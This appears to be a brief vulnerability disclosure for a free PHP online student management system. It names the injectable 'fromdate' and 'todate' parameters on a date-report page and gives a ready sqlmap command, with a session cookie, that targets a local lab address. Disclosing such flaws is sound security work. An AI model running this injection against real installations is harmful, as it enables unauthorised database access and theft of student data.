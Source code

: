 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16137/online-student-management-system-php-free-download.html

Vulnerability trigger parameter: $fromdate,$todate

The process of vulnerability discovery is as follows：

![image-20230223155745422](C:\markdown\images\image-20230223155745422.png)

exp

```
sqlmap.py -u "http://192.168.31.50/eduauth/student/between-date-reprtsdetails.php" --data "fromdate=1&todate=1" --cookie "PHPSESSID=po9tmu5iqkuvffteh4b6rur4g0"
```

![image-20230223155540814](C:\markdown\images\image-20230223155540814.png)